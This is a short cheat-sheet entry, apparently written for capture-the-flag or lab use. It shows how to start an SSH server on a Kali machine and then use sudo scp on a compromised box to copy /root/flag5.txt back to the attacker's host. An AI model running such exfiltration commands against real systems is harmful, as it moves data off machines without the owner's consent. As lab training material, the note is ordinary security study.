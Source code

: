 # SSH/SCP

If we're on a box and need to copy files back to Kali we can use SSH if available.

Start SSH server on Kali:

```
systemctl start ssh.socket
```

Now on box use SCP is it's available:

```
dennis@ip-10-10-9-16:/home/ubuntu$ sudo scp /root/flag5.txt kali@10.14.6.200:/home/kali
kali@10.14.6.200's password: 
flag5.txt
```
